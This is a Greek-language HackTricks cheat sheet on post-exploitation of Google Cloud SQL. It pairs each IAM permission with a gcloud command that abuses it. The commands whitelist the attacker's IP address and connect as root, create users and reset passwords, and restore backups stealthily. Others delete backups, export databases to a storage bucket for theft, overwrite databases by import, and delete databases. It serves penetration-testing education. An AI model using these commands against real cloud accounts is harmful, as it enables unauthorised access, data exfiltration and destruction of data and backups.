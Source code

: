 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Για περισσότερες πληροφορίες σχετικά με το Cloud SQL, ελέγξτε:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Για να συνδεθείτε στις βάσεις δεδομένων, **χρειάζεστε μόνο πρόσβαση στην θύρα της βάσης δεδομένων** και να γνωρίζετε το **όνομα χρήστη** και τον **κωδικό πρόσβασης**, δεν υπάρχουν απαιτήσεις IAM. Ένας εύκολος τρόπος για να αποκτήσετε πρόσβαση, υποθέτοντας ότι η βάση δεδομένων έχει δημόσια διεύθυνση IP, είναι να ενημερώσετε τα επιτρεπόμενα δίκτυα και **να επιτρέψετε τη δική σας διεύθυνση IP να έχει πρόσβαση σε αυτή**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Είναι επίσης δυνατό να χρησιμοποιήσετε **`--no-backup`** για να **διαταράξετε τα αντίγραφα ασφαλείας** της βάσης δεδομένων.

Δεδομένου ότι αυτές είναι οι απαιτήσεις, δεν είμαι εντελώς σίγουρος ποια είναι τα δικαιώματα **`cloudsql.instances.connect`** και **`cloudsql.instances.login`**. Αν το ξέρετε, στείλτε μια PR!

### `cloudsql.users.list`

Λάβετε μια **λίστα με όλους τους χρήστες** της βάσης δεδομένων:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Αυτή η άδεια επιτρέπει να **δημιουργηθεί ένας νέος χρήστης μέσα** στη βάση δεδομένων:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Αυτή η άδεια επιτρέπει να **ενημερώσετε τον χρήστη μέσα** στη βάση δεδομένων. Για παράδειγμα, μπορείτε να αλλάξετε τον κωδικό πρόσβασής του:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Τα αντίγραφα ασφαλείας μπορεί να περιέχουν **παλιές ευαίσθητες πληροφορίες**, οπότε είναι ενδιαφέρον να τα ελέγξετε.\
**Ανακτήστε ένα αντίγραφο ασφαλείας** μέσα σε μια βάση δεδομένων:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Για να το κάνετε με πιο διακριτικό τρόπο, συνιστάται να δημιουργήσετε μια νέα SQL instance και να ανακτήσετε τα δεδομένα εκεί αντί για τις τρέχουσες βάσεις δεδομένων.

### `cloudsql.backupRuns.delete`

Αυτή η άδεια επιτρέπει τη διαγραφή αντιγράφων ασφαλείας:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Εξαγωγή μιας βάσης δεδομένων** σε ένα Cloud Storage Bucket ώστε να μπορείτε να την αποκτήσετε από εκεί:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Εισαγωγή μιας βάσης δεδομένων** (επικαλύπτει) από ένα Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Διαγράψτε μια βάση δεδομένων από την db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
